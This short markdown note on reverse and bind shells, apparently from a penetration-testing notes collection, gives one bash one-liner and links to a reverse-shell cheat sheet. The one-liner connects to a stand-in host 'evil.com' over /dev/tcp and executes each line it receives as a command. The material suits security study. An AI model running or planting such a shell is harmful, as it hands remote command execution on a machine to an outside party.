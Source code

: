# Reverse and Bind shells

It's possible to execute remotely command creating a shell that
connects back to home, like this below in ``bash``

```
exec 5<>/dev/tcp/evil.com/<same unfiltered port> $ cat <&5 | while read line; do $line 2>&5 >&5; done
```

## Links

 - [Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
